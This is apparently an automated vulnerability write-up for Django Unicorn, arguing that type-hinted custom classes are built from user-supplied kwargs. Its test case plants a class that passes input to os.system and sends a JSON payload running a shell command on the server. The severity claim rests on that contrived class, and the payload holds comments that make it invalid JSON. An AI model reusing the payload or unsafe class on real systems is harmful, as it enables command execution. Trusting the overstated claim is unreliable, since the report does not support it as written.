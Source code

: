 ## Vulnerability List:

- Vulnerability Name: Insecure Deserialization / Arbitrary Code Execution via Custom Class Constructor
  - Description:
    1. An attacker identifies a Django Unicorn component with a method that accepts a custom class as an argument and uses type hinting.
    2. The attacker crafts a malicious JSON payload for a `callMethod` action. This payload is designed to be passed as keyword arguments to the constructor of the custom class.
    3. The attacker sends this payload to the Unicorn message endpoint.
    4. Django Unicorn's backend deserializes the JSON payload and, due to type hinting, attempts to instantiate the custom class using the provided data as keyword arguments.
    5. If the custom class constructor is vulnerable to insecure deserialization or code injection through its arguments, the attacker can achieve arbitrary code execution on the server or other malicious outcomes.

  - Impact: Arbitrary code execution on the server, potentially leading to full system compromise, data breach, or denial of service. The severity depends on the actions performed within the vulnerable custom class constructor.
  - Vulnerability Rank: Critical
  - Currently Implemented Mitigations:
    - None. The framework utilizes type hinting and `cast_value` for type conversion but does not sanitize or validate data passed to custom class constructors. The `serializer.py` file, which handles serialization and deserialization within Django Unicorn, does not include any specific mitigations for this type of vulnerability.
  - Missing Mitigations:
    - Input validation and sanitization should be implemented within custom class constructors to prevent insecure deserialization and code injection.
    - Consider restricting the instantiation of arbitrary classes from user input. A whitelist of safe custom classes or a safer deserialization mechanism could be introduced within `django_unicorn/typer.py` in the `cast_value` function.
    - Developers should be strongly warned in the documentation about the security risks of using custom classes as type hints for component methods, emphasizing the importance of secure constructor implementations.
  - Preconditions:
    - The application must use Django Unicorn components.
    - A specific component must have a method that accepts a custom class as an argument with type hinting.
    - The constructor of this custom class must be vulnerable to insecure deserialization or code injection based on the arguments it receives.
    - The attacker must be aware of the component's method name and argument name to craft the exploit.
  - Source Code Analysis:
    1. File: `django_unicorn\views\action_parsers\call_method.py` -> Function: `_call_method_name`
       ```python
       def _call_method_name(component: UnicornView, method_name: str, args: Tuple[Any], kwargs: Dict[str, Any]) -> Any:
           ...
           for argument in arguments:
               if argument in type_hints:
                   type_hint = type_hints[argument]
                   ...
                   if is_model:
                       ...
                   elif argument in kwargs:
                       parsed_kwargs[argument] = cast_value(type_hint, kwargs[argument])
                   elif len(args) > len(parsed_args):
                       parsed_args.append(cast_value(type_hint, args[len(parsed_args)]))
                   ...
           ...
       ```
       - This function handles the invocation of component methods. It retrieves type hints for method arguments and uses `cast_value` for type conversion. User-provided data in `kwargs` and `args` is passed to `cast_value`.

    2. File: `django_unicorn\typer.py` -> Function: `cast_value`
       ```python
       def cast_value(type_hint: Any, value: Any) -> Any:
           ...
           elif is_dataclass(type_hint):
               value = type_hint(**value) # Vulnerable line
           ...
           return value
       ```
       - The `cast_value` function, when dealing with dataclasses (and potentially other custom classes), directly instantiates them using `type_hint(**value)`. The `value` dictionary, derived from user input, is passed as keyword arguments to the class constructor without any sanitization or validation by Django Unicorn itself. This allows an attacker to control the arguments passed to the constructor if the method argument has a custom class type hint.

    - Visualization:

      ```mermaid
      graph LR
          A[User Request (malicious payload)] --> B(Django Unicorn Message Endpoint)
          B --> C(action_parsers.call_method.handle)
          C --> D(_call_method_name)
          D --> E(typer.cast_value)
          E --> F{is_dataclass(type_hint)?}
          F -- Yes --> G[type_hint(**value) - Vulnerable Constructor]
          G --> H[Arbitrary Code Execution or Insecure Deserialization]
          F -- No --> I[Other type casting]
      ```

  - Security Test Case:
    1. Create a component with a vulnerable method and custom class type hint.
       ```python
       # example/unicorn/components/exploit_component.py
       from django_unicorn.components import UnicornView

       class VulnerableClass:
           def __init__(self, cmd):
               import os
               os.system(cmd) # Insecure: arbitrary command execution - FOR DEMONSTRATION ONLY, DO NOT USE in production or real tests

       class ExploitView(UnicornView):
           def vulnerable_method(self, arg: VulnerableClass):
               pass # Method itself doesn't need to do anything for exploit
       ```

    2. Create a template to render this component in `example/unicorn/templates/components/exploit_component.html`:
       ```html
       <div>
           This is the exploit component.
       </div>
       ```

    3. Create a view in `example/www/views.py` to render the component:
       ```python
       # example/www/views.py
       from django.shortcuts import render
       from django.http import HttpResponse

       def exploit_view(request):
           return render(request, 'www/exploit.html')
       ```

    4. Create a template `example/www/exploit.html`:
       ```html
       {% load unicorn %}
       <html>
       <head>
           <title>Exploit Test</title>
       </head>
       <body>
           <h1>Exploit Test</h1>
           {% unicorn 'exploit-component' %}
           {% unicorn_scripts %}
       </body>
       </html>
       ```

    5. Add URL to `example/project/urls.py`:
       ```python
       # example/project/urls.py
       from django.urls import path
       from example.www import views

       urlpatterns = [
           ...
           path("exploit", views.exploit_view, name="exploit"),
           ...
       ]
       ```

    6. Run the Django development server.

    7. Craft a POST request to the Unicorn message endpoint. Use a tool like `curl` or `Postman`. The URL will be something like `http://127.0.0.1:8000/message/unicorn.components.exploit_component.ExploitView`. The JSON payload should be:
       ```json
       {
         "actionQueue": [
           {
             "payload": {
               "name": "vulnerable_method",
               "kwargs": {
                 "arg": { "cmd": "whoami > /tmp/unicorn_exploit.txt" } # Example: Writes output of whoami command to a file
               }
             },
             "type": "callMethod"
           }
         ],
         "data": {},
         "checksum": "...", # Replace with a valid checksum - can be an empty string for this test, or generate a valid one.
         "id": "exploit-component-id", # Replace with any component id.
         "epoch": 1691500000 # Replace with a timestamp
       }
       ```
       **Note:** You will need to calculate and insert a valid checksum. For testing purposes, an empty string might suffice, but for real applications, a proper checksum is needed.

    8. Send the POST request.

    9. Check if the command `whoami > /tmp/unicorn_exploit.txt` was executed on the server. You can check for the existence of the `/tmp/unicorn_exploit.txt` file and its content to confirm successful command execution. For safer testing, replace `os.system` with a logging mechanism or file writing that does not pose a security risk to the test environment.

    This test case will demonstrate the potential for arbitrary command execution due to insecure handling of custom class instantiation via user-controlled input.
